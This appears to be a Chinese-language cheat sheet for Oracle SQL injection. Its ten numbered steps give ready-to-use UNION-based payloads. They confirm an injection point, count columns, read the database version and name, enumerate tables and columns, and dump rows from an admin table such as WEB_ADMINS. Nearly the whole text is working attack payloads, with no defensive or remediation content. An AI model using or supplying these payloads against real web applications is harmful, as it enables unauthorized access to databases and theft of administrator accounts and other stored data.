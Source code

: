 # oracle

```
1. 找到注入点，类似于下面的
```

' or 1=1-- -

```
2. 判断字段个数类型
```

' or 1=2 order by 4-- - //直到出错 ' or 1=2 union select null,null,null from dual-- - //判断是字符还是整数 如果报错，改为 ' or 1=2 union select 'null','null','null' from dual-- -

```
3. 查库信息
```

' or 1=2 union select null,(select banner from sys.v\_$version where rownum=1),null from dual-- -

```
4. 查库
```

' or 1=2 union select null,(SELECT SYS.DATABASE\_NAME FROM DUAL),null from dual-- -

```
5. 查表
```

' or 1=2 union select null,(select table\_name from user\_tables where rownum=1),null from dual-- -

```
6. 查有无其他表
```

' or 1=2 union select null,(select table\_name from user\_tables where rownum=1 and table\_name not in 'WEB\_ADMINS'),null from dual-- -

```
当有多个需要排除
```

' or 1=2 union select null,(select table\_name from user\_tables where rownum=1 and table\_name not in ('WEB\_ADMINS','WEB\_CONTENT')),null from dual-- -

```
7. 查列
```

' or 1=2 union select null,(select column\_name from user\_tab\_columns where table\_name='WEB\_ADMINS' and rownum=1),null from dual-- -

```
8. 查有无其他列
```

' or 1=2 union select null,(select column\_name from user\_tab\_columns where table\_name='WEB\_ADMINS' and rownum=1 and column\_name not in 'ADMIN\_ID'),null from dual-- - 多个排除同上

```
9. 查列内容
```

' or 1=2 union select null,(select ADMIN\_NAME from "WEB\_ADMINS" where rownum=1),null from dual-- -

```
10.查有无其他内容
```

' or 1=2 union select null,(select ADMIN\_NAME from "WEB\_ADMINS" where rownum=1 and ADMIN\_NAME <> 'admin'),null from dual-- - 其他列的内容同上
